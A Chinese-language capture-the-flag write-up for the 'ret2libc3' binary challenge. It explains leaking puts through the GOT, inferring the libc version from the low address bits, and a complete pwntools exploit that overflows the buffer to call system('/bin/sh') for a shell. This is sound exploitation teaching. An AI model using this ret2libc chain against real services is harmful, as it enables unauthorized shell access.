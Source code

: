 # ret2libc3

首先查看保护：

![1-1](1-1.png)

![1-2](1-2.png)

没有找到system函数和/bin/sh字符串。

如果知道libc中某个函数的地址，进而可以知道system函数的地址。

为得到libc中某个函数的地址，一般采用got表泄露，即输出某个函数对用的got表的内容。由于libc的延迟绑定机制，需要泄露已经执行过的函数的地址。这个机制大致就是在第一次调用某个函数的时候，这个函数的got表中存放的是下一条plt表的指令的地址，经过一系列操作后得到真实地址，然后将这个真实地址放到got表中，这样之后调用这个函数的时候在got表中可以直接找到真实地址。

因为在这之前已经运行过puts函数，so，got表中放着puts的真实地址，所以我们可以将puts的真实地址打印出来。

> libc基地址   +   函数偏移量    =   函数真实地址

以下可以找到puts的真实地址：0xf7da9ca0

```
from pwn import *
io = process("./ret2libc3")
elf = ELF("./ret2libc3")
puts_got = elf.got["puts"]
puts_plt = elf.plt["puts"]

payload = b'a'*112 + p32(puts_plt) +p32(0xdeadbeef) + p32(puts_got)
io.recv()
io.sendline(payload)
puts_addr = hex(u32(io.recv()[0:4]))
print(puts_addr)
```

![1-3](1-3.png)

找到了puts的真实地址，但是还需要知道libc的版本，其实根据真实地址是可以得到libc的版本的。

ASLR，地址随机化，但即是再随机化，它的低12位保持不变，因为内存页对齐的缘故。

0xf7da9ca0的低12位是ca0，这里有个网站：https://libc.blukat.me/

可以根据低12位查到这个的版本![1-4](1-4.png)

这样就得到了system函数的偏移和/bin/sh的偏移。

> system_offset = 0x03d2e0
> puts_offset = 0x067ca0
> bin_sh_offset = 0x17e0af

完整EXP：

```
from pwn import *

p = process('./ret2libc3')
elf = ELF('./ret2libc3')

puts_got_addr = elf.got['puts']
puts_plt_addr = elf.plt['puts']
main_plt_addr = elf.symbols['_start']

payload = b'a'*112 + p32(puts_plt_addr) + p32(main_plt_addr) + p32(puts_got_addr)
#main_plt_addr可以使程序再次溢出

p.recv()
p.sendline(payload)

puts_addr = u32(p.recv()[0:4])

sys_offset = 0x03d2e0
puts_offset = 0x067ca0
sh_offset = 0x17e0af
#libc基地址 + 函数偏移 = 函数真实地址
libc_base_addr = puts_addr - puts_offset
sys_addr = libc_base_addr + sys_offset 
sh_addr = libc_base_addr + sh_offset 
 

payload = b'a'*112 +p32(sys_addr) + p32(0xdeadbeef) +p32(sh_addr)

p.sendline(payload)
p.interactive()
```

